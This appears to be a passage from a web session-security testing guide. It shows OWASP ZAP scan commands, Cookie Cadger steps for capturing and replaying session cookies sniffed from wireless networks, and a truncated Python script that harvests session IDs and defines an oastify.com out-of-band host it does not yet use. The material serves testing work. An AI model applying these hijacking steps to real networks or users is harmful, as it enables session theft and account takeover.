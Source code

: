 ### 🕷️ OWASP ZAP
**Description:** Open-source web application security scanner with session management testing capabilities.

**Usage Examples:**
```bash
# Automated session testing
zap.sh -daemon -port 8080
zap-cli quick-scan --spider http://target-application.com
zap-cli active-scan http://target-application.com

# Session analysis
# Configure ZAP as proxy (localhost:8080)
# Navigate through application to capture session flows
# Review session management findings in report
```

### 🌐 Cookie Cadger
**Description:** Passive session hijacking tool that captures and replays session cookies from wireless networks.

**Usage Process:**
```bash
# Passive session capture
java -jar CookieCadger.jar

# Configuration steps:
1. Select wireless interface for monitoring
2. Start packet capture for HTTP traffic
3. Filter for session-related cookies
4. Save captured sessions for replay testing
5. Test session validity and access levels
```

### 📊 Session Analysis Scripts
```python
#!/usr/bin/env python3
import requests
import time
import hashlib
import random

class SessionAnalyzer:
    def __init__(self, target_url):
        self.target_url = target_url
        self.test_site = "https://rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com"
        
    def collect_session_samples(self, count=50):
        """Collect multiple session IDs for analysis"""
        session_ids = []
        timestamps = []
        
        print(f"[+] Collecting {count} session samples...")
        
        for i in range(count):
            session = requests.Session()
            try:
                response = session.get(f"{self.target_url}/login")
                
                # Extract session cookie
                for cookie in session.cookies:
                    if 'session' in cookie.name.lower():
                        session_ids.append(cookie.value)
                        timestamps.append(time.time())
```